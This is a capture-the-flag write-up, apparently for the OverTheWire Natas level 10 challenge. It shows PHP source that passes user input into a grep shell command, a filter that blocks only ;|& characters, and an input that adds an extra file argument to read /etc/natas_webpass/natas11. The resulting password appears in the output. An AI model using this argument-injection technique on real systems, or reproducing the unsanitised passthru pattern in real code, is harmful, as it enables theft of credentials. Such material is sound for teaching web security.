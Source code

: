 We are given the same input field from the previous level, only this time with a message above the input line:

***For security reasons, we now filter on certain characters***

Let's take a look at the source code they've provided:

```
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
</pre>
```

Rats; they've added some input validation, disallowing semicolons and ampersands. However, there is a key thing to point out about the syntax of the `grep` command used: you can use grep to search through multiple files. So while the current command is searching for our input within dictionary.txt, let's also get it to search through /etc/natas_webpass/natas11:

**`Find words containing: a /etc/natas_webpass/natas11`**  
```
Output:

/etc/natas_webpass/natas11:1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg
dictionary.txt:African
dictionary.txt:Africans
dictionary.txt:Allah
...
...
```

This happened to work because the password contains the character "a". If it didn't, we'd be forced to go character by character until we selected a character present in the password. 
